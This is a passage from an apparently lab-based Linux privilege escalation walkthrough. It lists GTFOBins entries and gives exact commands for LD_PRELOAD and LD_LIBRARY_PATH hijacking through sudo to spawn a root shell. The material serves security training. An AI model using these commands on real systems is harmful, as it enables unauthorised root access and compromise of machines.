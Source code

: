 * [iftop](https://gtfobins.github.io/#iftop)
* [find](https://gtfobins.github.io/#find)
* [nano](https://gtfobins.github.io/#nano)
* [vim](https://gtfobins.github.io/#vim)
* [man](https://gtfobins.github.io/#man)
* [awk](https://gtfobins.github.io/#awk)
* [less](https://gtfobins.github.io/#less)
* [ftp](https://gtfobins.github.io/#ftp)
* [apache2](https://gtfobins.github.io/#apache2)
* [more](https://gtfobins.github.io/#more)

`apache2`

1. Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

`No answer needed`

## Sudo - Environment Variables

Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

`sudo -l`

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

`sudo LD_PRELOAD=/tmp/preload.so program-name-here`

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp apache2`

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

